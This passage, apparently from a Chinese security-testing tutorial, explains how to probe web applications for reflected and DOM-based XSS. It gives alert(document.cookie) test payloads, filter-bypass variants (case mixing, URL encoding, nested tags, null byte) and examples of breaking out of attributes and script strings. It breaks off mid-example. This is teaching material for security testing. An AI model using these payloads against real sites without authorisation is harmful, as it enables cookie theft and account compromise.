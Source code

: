 ### 基本验证

```javascript
"><script>alert(document.cookie)</script>
```

把这个字符串提交给每个应用程序页面的每个参数；

同时监控它的响应，如果攻击字符串原样出现在响应中，就可能存在XSS漏洞。

许多应用可能会经过黑名单等简单的初步过滤，试图阻止XSS攻击；

可以通过编码等方式绕过：

```javascript
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3e%3cscript%3ealert(document.cookie)%3c/script%3e
"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00"><script>alert(document.cookie)</script>
```

当利用基于DOM的XSS漏洞时，攻击有效载荷并不在服务器的响应中返回，而是保存在浏览器的DOM中，并可被客户端javascript访问。

在这种情况下，以上基本验证无法发现XSS漏洞。

## 查找反射型XSS

#### 测试引入脚本的反射

**例1**，标签属性值：

假设返回页面中包含以下脚本：

```javascript
<input type="text" name="name" value="test-text" >
```

很明显，利用xss的方法是终止包含字符串的双引号，结束``标签

```javascript
"><script>alert(1)</script>
```

**例2**，javascript字符串：

假设返回页面中包含以下脚本：

```javascript
<script>var a='test-text'; var b=123;...</script>
```

用分号终止语句

```javascript
'; alert(1); var foo='
```

**例3**，包含URL的特性

假设返回页面中包含以下脚本：

```javascript
<a href="test-text">Click here</a>html
```
